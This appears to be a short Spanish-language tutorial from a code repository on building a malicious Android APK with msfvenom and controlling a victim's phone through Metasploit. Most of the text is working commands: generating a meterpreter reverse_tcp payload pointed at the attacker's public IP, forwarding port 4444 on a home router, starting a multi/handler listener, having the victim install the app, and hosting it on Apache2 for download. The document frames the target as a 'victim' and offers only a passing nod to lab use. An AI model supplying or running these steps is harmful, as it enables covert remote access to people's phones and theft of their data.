


## Cracking con Msfvenom fuera de Red

**MSFvenom** es una herramienta del framework Metasploit utilizada para generar payloads maliciosos en distintos formatos.  
Su uso fuera de red (offline) es común en entornos controlados o de laboratorio donde no se cuenta con conexión a internet.

---

## Creación de la aplicación maliciosa

En Kali Linux, generar el APK malicioso con la IP pública:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<TU IP PUBLICA> LPORT=4444 -o android.apk
```

---

## Configuración del Router

Acceder al router (por defecto suele ser `192.168.1.1`, usuario `admin`) y configurar el **reenvío de puertos**.  
Abrir el puerto **4444** y asignarlo a la IP de Kali Linux.

<p align="center">  </p>

---

## Conexión con Metasploit

Abrir una nueva terminal en Kali Linux y ejecutar:

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <IP KALI LINUX>
set LPORT 4444
exploit
```

<p align="center">  </p>

---

## Ejecución en el dispositivo víctima

Instalar la aplicación maliciosa en el celular víctima y abrirla.  
En Kali Linux se obtendrá una sesión de **meterpreter**.  
Con el comando `help` se puede ver la lista de acciones disponibles.

<p align="center">  </p>

---

## Nota

La aplicación maliciosa puede subirse a un servidor web (ejemplo: **Apache2**) para que la víctima la descargue desde allí.

---
